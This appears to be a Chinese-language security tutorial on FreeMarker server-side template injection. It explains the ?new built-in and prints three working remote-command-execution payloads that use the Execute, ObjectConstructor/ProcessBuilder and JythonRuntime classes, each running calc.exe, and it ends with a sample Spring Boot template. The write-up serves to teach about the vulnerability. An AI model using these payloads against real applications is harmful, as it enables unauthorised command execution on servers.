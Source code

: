 

模板文件存放在Web服务器上，就像通常存放静态HTML页面那样。当有人来访问这个页面， FreeMarker将会介入执行，然后动态转换模板，用最新的数据内容替换模板中 ${...} 的部分， 之后将结果发送到访问者的Web浏览器中。

这个模板主要用于 java ，用户可以通过实现 TemplateModel 来用 new 创建任意 Java 对象

具体的高级内置函数定义参考《[Seldom used and expert built-ins](https://freemarker.apache.org/docs/ref_builtins_expert.html)》

![img](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200911000148374-491461162.png)

主要的用法如下：

```
<＃ - 创建一个用户定义的指令，调用类的参数构造函数 - >
<#assign word_wrapp ="com.acmee.freemarker.WordWrapperDirective"?new（）>
<＃ - 创建一个用户定义的指令，用一个数字参数调用构造函数 - >
<#assign word_wrapp_narrow ="com.acmee.freemarker.WordWrapperDirective"?new（40）>
```

调用了构造函数创建了一个对象，那么这个 payload 中就是调用的 freemarker 的内置执行命令的对象 Execute

freemarker.template.utility 里面有个Execute类，这个类会执行它的参数，因此我们可以利用new函数新建一个Execute类，传输我们要执行的命令作为参数，从而构造远程命令执行漏洞。构造payload：

```
<#assign value="freemarker.template.utility.Execute"?new()>${value("calc.exe")}
```

freemarker.template.utility 里面有个ObjectConstructor类，如下图所示，这个类会把它的参数作为名称，构造了一个实例化对象。因此我们可以构造一个可执行命令的对象，从而构造远程命令执行漏洞。

```
<#assign value="freemarker.template.utility.ObjectConstructor"?new()>${value("java.lang.ProcessBuilder","calc.exe").start()
```

freemarker.template.utility 里面的JythonRuntime，可以通过自定义标签的方式，执行Python命令，从而构造远程命令执行漏洞。

```
<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc.exe")</@value>
```

这里使用测试代码来大概演示一下：https://github.com/hellokoding/springboot-freemarker

代码演示说明：https://hellokoding.com/spring-boot/freemarker/

前端代码　　——>　　hello.ftl



```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Hello ${name}!</title>
    <link href="/css/main.css" rel="stylesheet">
</head>
<body>
    <h2 class="hello-title">Hello ${name}!</h2>
    <script src="/js/main.js"></script>
</body>
</html>
```
